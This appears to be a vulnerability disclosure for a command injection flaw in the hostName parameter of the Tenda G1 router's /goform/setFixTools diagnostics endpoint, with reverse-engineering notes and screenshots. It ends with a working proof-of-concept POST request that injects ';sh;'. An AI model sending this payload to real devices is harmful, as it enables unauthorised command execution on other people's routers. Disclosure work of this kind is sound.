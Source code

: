 # Tenda G1_Command_injection

Vender ：Tenda

Firmware version:US_G1V1.0br_V15.11.0.16(9024)_CN_TDC.bin

Exploit Author: [doudoudedi233@gmail.com](mailto:doudoudedi233@gmail.com)

Vendor Homepage: https://www.tenda.com.cn/default.html

Hardware Link: https://www.tenda.com.cn/download/detail-3040.html



#### Describe

 Some problems exist on the Tenda G1 router. In the diagnostics  /goform/setFixTools/ configuration interface, the command injection exists for the post parameter hostName

一些问题存在Tenda G1路由器上，在配置界面Diagnostics下/goform/setFixTools/，其post参数hostName存在命令注入

#### Detail

In IDA  the formsetnetchecktools function is called as follows( the file is httpd )

在IDA中formSetNetCheckTools函数有如下调用

<img src="./img/image-20210919131609946.png" alt="image-20210919131609946" style="zoom:50%;" />

follow-up cmd_get_ping_out_put ruction

跟进cmd_get_ping_out_put

<img src="./img/image-20210919131745039.png" alt="image-20210919131745039" style="zoom:50%;" />



#### TEST



<img src="./img/image-20210919131508474.png" alt="image-20210919131508474" style="zoom:50%;" />

<img src="./img/image-20210919131354946.png" alt="image-20210919131354946" style="zoom:50%;" />



<img src="./img/image-20210919131450157.png" alt="image-20210919131450157" style="zoom:50%;" />



#### POC

```
POST /goform/setFixTools HTTP/1.1

Host: 192.168.10.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0

Accept: text/plain, */*; q=0.01

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 71

Origin: http://192.168.10.1

Connection: close

Referer: http://192.168.10.1/sysManage/sysTool.html?0.8581860712391024

Cookie: _:USERNAME:_=; G3v3_user=

networkTool=1&hostName=aaa;sh;192.168.10.1&packageNum=4&packageSize=100
```

